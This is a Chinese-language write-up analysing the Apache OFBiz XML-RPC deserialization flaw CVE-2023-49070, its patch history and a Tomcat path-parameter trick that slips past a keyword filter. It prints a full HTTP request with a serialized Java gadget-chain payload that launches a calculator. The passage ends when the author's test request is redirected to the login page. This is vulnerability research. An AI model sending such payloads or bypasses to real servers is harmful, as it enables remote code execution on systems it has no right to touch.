# CVE-2023-49070 Apache OFBiz XMLRPC RCE 漏洞分析

  

漏洞介绍

Apache OFBiz 是一个开源的企业资源规划（ERP）系统，它提供了一套企业应用程序，可以集成和自动化企业的许多业务流程。

2023 年 12 月初，Apache 官方发布 OFBiz 新版本 18.12.10，以移除 XML-RPC 组件的方式修复编号为 CVE-2023-49070 的远程代码执行漏洞。本次漏洞源于 OFBiz 使用了存在反序列化漏洞的 XML-RPC 组件，这个脆弱组件问题在早期的 CVE-2020-9496 漏洞中已有所体现，虽然官方在 CVE-2020-9496 漏洞之后，增加了 Filter 拦截与权限校验，但攻击者能够绕过这些判断逻辑，达到 CVE-2020-9496 RCE 漏洞的再次利用。

影响版本

<18.12.10

历史相关漏洞修复回顾

**xmlrpc 鉴权**

由于 CVE-2023-49070 是 CVE-2020-9496 漏洞的绕过再利用，那便从 CVE-2020-9496 漏洞的修复方式开始看起，这个漏洞的影响范围为 `<17.12.04`，是源于使用的 XML-RPC 组件的反序列化漏洞。

https://github.com/apache/ofbiz-framework/commit/d708d9a#diff-bb54e344de72488b4e358a9d8fd385a5d9a6aea32d7236e7c268889f6ba3a8f6

这种不彻底的修复方式，使得该漏洞在认证后依然能够被利用。

**serializable 关键词检测**

果不其然，2021 年 10 月 3 日，名为 Jie Zhu 的 Reporter 向 OFBiz 官方报告了这个由于 CVE-2020-9496 补丁修复不彻底的认证后漏洞，当时最新的版本 17.12.08 也是受影响的。



官方表示这个问题本质上与 OFBiz 无关，而是由于 XMLRPC 存在的反序列化漏洞而导致的，但 XMLRPC 也停止了维护，因此也只能在 OFBiz 中对这个问题进行修复，修复方式是在 `ContextFilter`类中增加黑名单关键词进行检测。



https://github.com/apache/ofbiz-framework/commit/15c209a#diff-f37b7643914fa9638206d2d8f2c04d507c024581dec14b2a2588b4a4c46cf96b



对于官方采用的这种黑名单修复方式，很显然是无法覆盖全面的，总会存在绕过的方式，Jie Zhu 也很快发现了绕过方式，在原来被检测的关键词的中间增加一个空格便能轻松绕过。最终，官方对此便又将检测的关键词换成了 `</serializable`。



不过，原本是由 `org.apache.ofbiz.webapp.control.ContextFilter`类进行检测，现在变成了由 `org.apache.ofbiz.base.util.CacheFilter`类，Commit 如下。

https://github.com/apache/ofbiz-framework/commit/fb49563


此处的判断逻辑在后续还发生了一些变化，最终的代码如下：

```plain
public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
    // Get the request URI without the webapp mount point.
    String context = ((HttpServletRequest) request).getContextPath();
    String uriWithContext = ((HttpServletRequest) request).getRequestURI();
    String uri = uriWithContext.substring(context.length());

    if ("/control/xmlrpc".equals(uri.toLowerCase())) {
        // Read request.getReader() as many time you need
        request = new RequestWrapper((HttpServletRequest) request);
        String body = request.getReader().lines().collect(Collectors.joining());
        if (body.contains("</serializable")) {
            Debug.logError("Content not authorised for security reason", "CacheFilter"); // Cf. OFBIZ-12332
            return;
        }
    }
    chain.doFilter(request, response);
}
```

**移除 XML-RPC**  

时间来到 2023 年 4 月 26 日，也就是本次 CVE-2023-49070 漏洞的出现，CVE-2023-49070 漏洞是如上两种修复方式的绕过，这次官方对于该漏洞的修复方式非常彻底，直接将废弃的、无人维护的 Apache XML-RPC 进行了移除。



但他们只对 18.12 和 22.01 两个分支进行了 Commit，这也就意味着 17.12 分支中的所有版本暂无补丁。针对 18.12 版本的 Commit 如下。

https://github.com/apache/ofbiz-framework/commit/c59336f604

  

漏洞环境搭建

下载 18.12.09 版本，搭建环境进行分析。

```plain
wget http://archive.apache.org/dist/ofbiz/apache-ofbiz-18.12.09.zip
unzip apache-ofbiz-18.12.09.zip && cd apache-ofbiz-18.12.09
```

使用如下几条命令将 OFBiz 环境起起来。

```plain
sh gradle/init-gradle-wrapper.sh
./gradlew cleanAll
./gradlew "ofbiz --load-data readers=seed,seed-initial,ext"
./gradlew ofbiz
```

```plain
distributionUrl=https\://services.gradle.org/distributions/gradle-5.0-rc-5-bin.zip
```

启动后访问 `https://localhost:8443/myportal/control/main`登录页面，以确认环境是否搭建成功。

确认完毕后，先关闭 OFBiz，通过如下命令再次启动。

```plain
./gradlew ofbizDebug
```

并在 IDEA 中新增如下 Run/Debug 配置。



这样便能对 OFBiz 进行调试了。


漏洞分析

根据 web.xml 中的如下映射关系，可得知请求会先被 `org.apache.ofbiz.base.util.CacheFilter`进行处理。

```plain
<filter>
    <display-name>CacheFilter</display-name>
    <filter-name>CacheFilter</filter-name>
    <filter-class>org.apache.ofbiz.base.util.CacheFilter</filter-class>
</filter>
<filter-mapping>
    <filter-name>CacheFilter</filter-name>
    <url-pattern>/*</url-pattern>
</filter-mapping>
```

  

所以将断点打至 `org.apache.ofbiz.base.util.CacheFilter#doFilter`方法，先发送 CVE-2020-9496 的 Payload。

```plain
POST /webtools/control/xmlrpc HTTP/1.1
Host: localhost:8443
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36
Accept: */*
Connection: close
Content-Type: application/xml
Content-Length: 3982
<?xml version="1.0"?><methodCall><methodName>Test</methodName><params><param><value><struct><member><name>rce</name><value><serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">rO0ABXNyABdqYXZhLnV0aWwuUHJpb3JpdHlRdWV1ZZTaMLT7P4KxAwACSQAEc2l6ZUwACmNvbXBhcmF0b3J0ABZMamF2YS91dGlsL0NvbXBhcmF0b3I7eHAAAAACc3IAK29yZy5hcGFjaGUuY29tbW9ucy5iZWFudXRpbHMuQmVhbkNvbXBhcmF0b3LjoYjqcyKkSAIAAkwACmNvbXBhcmF0b3JxAH4AAUwACHByb3BlcnR5dAASTGphdmEvbGFuZy9TdHJpbmc7eHBzcgA/b3JnLmFwYWNoZS5jb21tb25zLmNvbGxlY3Rpb25zLmNvbXBhcmF0b3JzLkNvbXBhcmFibGVDb21wYXJhdG9y+/SZJbhusTcCAAB4cHQAEG91dHB1dFByb3BlcnRpZXN3BAAAAANzcgA6Y29tLnN1bi5vcmcuYXBhY2hlLnhhbGFuLmludGVybmFsLnhzbHRjLnRyYXguVGVtcGxhdGVzSW1wbAlXT8FurKszAwAGSQANX2luZGVudE51bWJlckkADl90cmFuc2xldEluZGV4WwAKX2J5dGVjb2Rlc3QAA1tbQlsABl9jbGFzc3QAEltMamF2YS9sYW5nL0NsYXNzO0wABV9uYW1lcQB+AARMABFfb3V0cHV0UHJvcGVydGllc3QAFkxqYXZhL3V0aWwvUHJvcGVydGllczt4cAAAAAD/////dXIAA1tbQkv9GRVnZ9s3AgAAeHAAAAACdXIAAltCrPMX+AYIVOACAAB4cAAABqjK/rq+AAAAMgA5CgADACIHADcHACUHACYBABBzZXJpYWxWZXJzaW9uVUlEAQABSgEADUNvbnN0YW50VmFsdWUFrSCT85Hd7z4BAAY8aW5pdD4BAAMoKVYBAARDb2RlAQAPTGluZU51bWJlclRhYmxlAQASTG9jYWxWYXJpYWJsZVRhYmxlAQAEdGhpcwEAE1N0dWJUcmFuc2xldFBheWxvYWQBAAxJbm5lckNsYXNzZXMBADVMeXNvc2VyaWFsL3BheWxvYWRzL3V0aWwvR2FkZ2V0cyRTdHViVHJhbnNsZXRQYXlsb2FkOwEACXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEACGRvY3VtZW50AQAtTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007AQAIaGFuZGxlcnMBAEJbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjsBAApFeGNlcHRpb25zBwAnAQCmKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEACGl0ZXJhdG9yAQA1TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjsBAAdoYW5kbGVyAQBBTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjsBAApTb3VyY2VGaWxlAQAMR2FkZ2V0cy5qYXZhDAAKAAsHACgBADN5c29zZXJpYWwvcGF5bG9hZHMvdXRpbC9HYWRnZXRzJFN0dWJUcmFuc2xldFBheWxvYWQBAEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5zbGV0AQAUamF2YS9pby9TZXJpYWxpemFibGUBADljb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvVHJhbnNsZXRFeGNlcHRpb24BAB95c29zZXJpYWwvcGF5bG9hZHMvdXRpbC9HYWRnZXRzAQAIPGNsaW5pdD4BABFqYXZhL2xhbmcvUnVudGltZQcAKgEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsMACwALQoAKwAuAQASb3BlbiAtYSBDYWxjdWxhdG9yCAAwAQAEZXhlYwEAJyhMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwwAMgAzCgArADQBAA1TdGFja01hcFRhYmxlAQAeeXNvc2VyaWFsL1B3bmVyNDk3OTQ2MTA4NzQyNjI1AQAgTHlzb3NlcmlhbC9Qd25lcjQ5Nzk0NjEwODc0MjYyNTsAIQACAAMAAQAEAAEAGgAFAAYAAQAHAAAAAgAIAAQAAQAKAAsAAQAMAAAALwABAAEAAAAFKrcAAbEAAAACAA0AAAAGAAEAAAAvAA4AAAAMAAEAAAAFAA8AOAAAAAEAEwAUAAIADAAAAD8AAAADAAAAAbEAAAACAA0AAAAGAAEAAAA0AA4AAAAgAAMAAAABAA8AOAAAAAAAAQAVABYAAQAAAAEAFwAYAAIAGQAAAAQAAQAaAAEAEwAbAAIADAAAAEkAAAAEAAAAAbEAAAACAA0AAAAGAAEAAAA4AA4AAAAqAAQAAAABAA8AOAAAAAAAAQAVABYAAQAAAAEAHAAdAAIAAAABAB4AHwADABkAAAAEAAEAGgAIACkACwABAAwAAAAkAAMAAgAAAA+nAAMBTLgALxIxtgA1V7EAAAABADYAAAADAAEDAAIAIAAAAAIAIQARAAAACgABAAIAIwAQAAl1cQB+ABAAAAHUyv66vgAAADIAGwoAAwAVBwAXBwAYBwAZAQAQc2VyaWFsVmVyc2lvblVJRAEAAUoBAA1Db25zdGFudFZhbHVlBXHmae48bUcYAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBAANGb28BAAxJbm5lckNsYXNzZXMBACVMeXNvc2VyaWFsL3BheWxvYWRzL3V0aWwvR2FkZ2V0cyRGb287AQAKU291cmNlRmlsZQEADEdhZGdldHMuamF2YQwACgALBwAaAQAjeXNvc2VyaWFsL3BheWxvYWRzL3V0aWwvR2FkZ2V0cyRGb28BABBqYXZhL2xhbmcvT2JqZWN0AQAUamF2YS9pby9TZXJpYWxpemFibGUBAB95c29zZXJpYWwvcGF5bG9hZHMvdXRpbC9HYWRnZXRzACEAAgADAAEABAABABoABQAGAAEABwAAAAIACAABAAEACgALAAEADAAAAC8AAQABAAAABSq3AAGxAAAAAgANAAAABgABAAAAPAAOAAAADAABAAAABQAPABIAAAACABMAAAACABQAEQAAAAoAAQACABYAEAAJcHQABFB3bnJwdwEAeHEAfgANeA==</serializable></value></member></struct></value></param></params></methodCall>```
```

```plain
public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
    // Get the request URI without the webapp mount point.
    String context = ((HttpServletRequest) request).getContextPath();
    String uriWithContext = ((HttpServletRequest) request).getRequestURI();
    String uri = uriWithContext.substring(context.length());
    if ("/control/xmlrpc".equals(uri.toLowerCase())) {
        // Read request.getReader() as many time you need
        request = new RequestWrapper((HttpServletRequest) request);
        String body = request.getReader().lines().collect(Collectors.joining());
        if (body.contains("</serializable")) {
            Debug.logError("Content not authorised for security reason", "CacheFilter"); // Cf. OFBIZ-12332
            return;
        }
    }
    chain.doFilter(request, response);
}
```

如上关键代码，当小写的\`uri\`路径为\`/control/xmlrpc\`时，便会继续判断请求正文中是否包含\`</serializable\`关键词，若存在，则会报内容未经授权，并返回空，这样请求就无法到达\`chain.doFilter\`进行后续的操作。所以，这里的请求路径既不能完全等于\`/control/xmlrpc\`，又要能够到达\`/control/xmlrpc\`路由。

在做下一步分析前，先来了解下OFBiz所使用的容器Tomcat，它对于路径参数的解析过程，代码位于\`org.apache.catalina.connector.CoyoteAdapter\`类中的\`parsePathParameters\`方法，该方法负责解析请求URI中的路径参数。

**路径参数通常出现在URL中的分号\`;\`后面，用于传递有关所请求资源的附加信息。**

```plain
protected void parsePathParameters(org.apache.coyote.Request req, Request request) {
    // Process in bytes (this is default format so this is normally a NO-OP
    req.decodedURI().toBytes();
    ByteChunk uriBC = req.decodedURI().getByteChunk();
    // The first character must always be '/' so start search at position 1.
    // If the first character is ';' the URI will be rejected at the
    // normalization stage
    int semicolon = uriBC.indexOf(';', 1);
    // Performance optimisation. Return as soon as it is known there are no
    // path parameters;
    if (semicolon == -1) {
        return;
    }
    // What encoding to use? Some platforms, eg z/os, use a default
    // encoding that doesn't give the expected result so be explicit
    Charset charset = connector.getURICharset();

    // ...
    while (semicolon > -1) {
        // Parse path param, and extract it from the decoded request URI
        int start = uriBC.getStart();
        int end = uriBC.getEnd();

        int pathParamStart = semicolon + 1;
        int pathParamEnd =
                ByteChunk.findBytes(uriBC.getBuffer(), start + pathParamStart, end, new byte[] { ';', '/' });

        String pv = null;
        if (pathParamEnd >= 0) {
            if (charset != null) {
                pv = new String(uriBC.getBuffer(), start + pathParamStart, pathParamEnd - pathParamStart, charset);
            }
            // Extract path param from decoded request URI
            byte[] buf = uriBC.getBuffer();
            for (int i = 0; i < end - start - pathParamEnd; i++) {
                buf[start + semicolon + i] = buf[start + i + pathParamEnd];
            }
            uriBC.setBytes(buf, start, end - start - pathParamEnd + semicolon);
        } else {
            if (charset != null) {
                pv = new String(uriBC.getBuffer(), start + pathParamStart, (end - start) - pathParamStart, charset);
            }
            uriBC.setEnd(start + semicolon);
        }
        // ...
        if (pv != null) {
            int equals = pv.indexOf('=');
            if (equals > -1) {
                String name = pv.substring(0, equals);
                String value = pv.substring(equals + 1);
                request.addPathParameter(name, value);
                // ...
            }
        }
        semicolon = uriBC.indexOf(';', semicolon);
    }
}
```

这个方法会查找URI中第一个\`;\`的索引，如果不存在\`;\`则直接返回。



如果存在\`;\`字符，则进入循环对每个路径参数进行处理，将会查找每个路径参数在URI中的起始和结束位置，将路径参数值提取为字符串。随后删除已处理的路径参数，对URI进行修改，从而更新\`uriBC\`以排除路径参数。



最终，URI由起初的\`/webtools/control/xmlrpc;/\`变成了\`/webtools/control/xmlrpc\`，这样通过添加路径参数符的方式，也就能够达到绕过目的。如下图，请求顺利到达\`chain.doFilter\`，交由其进行处理。



继续往下，请求将会到达\`org.apache.ofbiz.webapp.control.ControlServlet#doGet\`方法。



根据web.xml中的映射关系，可知请求\`/control/xmlrpc\`，会由\`ControlServlet\`，这也再次印证了如上绕过方式是正确的。

```plain
<servlet>
    <description>Main Control Servlet</description>
    <display-name>ControlServlet</display-name>
    <servlet-name>ControlServlet</servlet-name>
    <servlet-class>org.apache.ofbiz.webapp.control.ControlServlet</servlet-class>
    <load-on-startup>1</load-on-startup>
</servlet>
<servlet-mapping>
    <servlet-name>ControlServlet</servlet-name>
    <url-pattern>/control/*</url-pattern>
</servlet-mapping>
```

但回到BurpSuite，发现漏洞并未利用成功，而是跳转到了登录页面。

